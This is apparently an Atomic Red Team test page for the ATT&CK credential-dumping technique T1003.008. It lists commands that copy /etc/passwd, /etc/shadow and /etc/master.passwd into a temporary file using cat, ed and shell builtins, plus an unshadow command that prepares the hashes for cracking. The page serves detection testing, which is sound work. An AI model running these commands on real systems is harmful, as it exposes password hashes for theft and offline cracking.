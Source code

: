 # T1003.008 - OS Credential Dumping: /etc/passwd, /etc/master.passwd and /etc/shadow

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/008)

<blockquote>Adversaries may attempt to dump the contents of <code>/etc/passwd</code> and <code>/etc/shadow</code> to enable offline password cracking. Most modern Linux operating systems use a combination of <code>/etc/passwd</code> and <code>/etc/shadow</code> to store user account information including password hashes in <code>/etc/shadow</code>. By default, <code>/etc/shadow</code> is only readable by the root user.(Citation: Linux Password and Shadow File Formats)

The Linux utility, unshadow, can be used to combine the two files in a format suited for password cracking utilities such as John the Ripper:(Citation: nixCraft - John the Ripper) <code># /usr/bin/unshadow /etc/passwd /etc/shadow > /tmp/crack.password.db</code>

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access /etc/shadow (Local)](#atomic-test-1---access-etcshadow-local)

- [Atomic Test #2 - Access /etc/master.passwd (Local)](#atomic-test-2---access-etcmasterpasswd-local)

- [Atomic Test #3 - Access /etc/passwd (Local)](#atomic-test-3---access-etcpasswd-local)

- [Atomic Test #4 - Access /etc/{shadow,passwd,master.passwd} with a standard bin that's not cat](#atomic-test-4---access-etcshadowpasswdmasterpasswd-with-a-standard-bin-thats-not-cat)

- [Atomic Test #5 - Access /etc/{shadow,passwd,master.passwd} with shell builtins](#atomic-test-5---access-etcshadowpasswdmasterpasswd-with-shell-builtins)

<br/>

## Atomic Test #1 - Access /etc/shadow (Local)

/etc/shadow file is accessed in Linux environments

**Supported Platforms:** Linux

**auto_generated_guid:** 3723ab77-c546-403c-8fb4-bb577033b235

#### Inputs:

| Name        | Description                                | Type | Default Value      |
| ----------- | ------------------------------------------ | ---- | ------------------ |
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt |

#### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
sudo cat /etc/shadow > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:

```bash
rm -f #{output_file}
```

<br/>
<br/>

## Atomic Test #2 - Access /etc/master.passwd (Local)

/etc/master.passwd file is accessed in FreeBSD environments

**Supported Platforms:** Linux

**auto_generated_guid:** 5076874f-a8e6-4077-8ace-9e5ab54114a5

#### Inputs:

| Name        | Description                                | Type | Default Value      |
| ----------- | ------------------------------------------ | ---- | ------------------ |
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
sudo cat /etc/master.passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:

```sh
rm -f #{output_file}
```

<br/>
<br/>

## Atomic Test #3 - Access /etc/passwd (Local)

/etc/passwd file is accessed in FreeBSD and Linux environments

**Supported Platforms:** Linux

**auto_generated_guid:** 60e860b6-8ae6-49db-ad07-5e73edd88f5d

#### Inputs:

| Name        | Description                                | Type | Default Value      |
| ----------- | ------------------------------------------ | ---- | ------------------ |
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt |

#### Attack Commands: Run with `sh`!

```sh
cat /etc/passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:

```sh
rm -f #{output_file}
```

<br/>
<br/>

## Atomic Test #4 - Access /etc/{shadow,passwd,master.passwd} with a standard bin that's not cat

Dump /etc/passwd, /etc/master.passwd and /etc/shadow using ed

**Supported Platforms:** Linux

**auto_generated_guid:** df1a55ae-019d-4120-bc35-94f4bc5c4b0a

#### Inputs:

| Name        | Description                                | Type | Default Value      |
| ----------- | ------------------------------------------ | ---- | ------------------ |
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
unamestr=$(uname)
if [ "$unamestr" = 'Linux' ]; then echo -e "e /etc/passwd\n,p\ne /etc/shadow\n,p\n" | ed > ${output_file}; elif [ "$unamestr" = 'FreeBSD' ]; then echo -e "e /etc/passwd\n,p\ne /etc/master.passwd\n,p\ne /etc/shadow\n,p\n" | ed > ${output_file}; fi
```

#### Cleanup Commands:

```sh
rm -f #{output_file}
```

<br/>
<br/>

## Atomic Test #5 - Access /etc/{shadow,passwd,master.passwd} with shell builtins

Dump /etc/passwd, /etc/master.passwd and /etc/shadow using sh builtins

**Supported Platforms:** Linux

**auto_generated_guid:** f5aa6543-6cb2-4fae-b9c2-b96e14721713

#### Inputs:

| Name        | Description                                | Type | Default Value      |
| ----------- | ------------------------------------------ | ---- | ------------------ |
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt |

#### Attack Commands: Run with `sh`! Elevation Required (e.g. root or admin)

```sh
testcat(){ (while read line; do echo $line >> #{output_file}; done < $1) }
[ "$(uname)" = 'FreeBSD' ] && testcat /etc/master.passwd
testcat /etc/passwd
testcat /etc/shadow
```

#### Cleanup Commands:

```sh
rm -f #{output_file}
```

<br/>
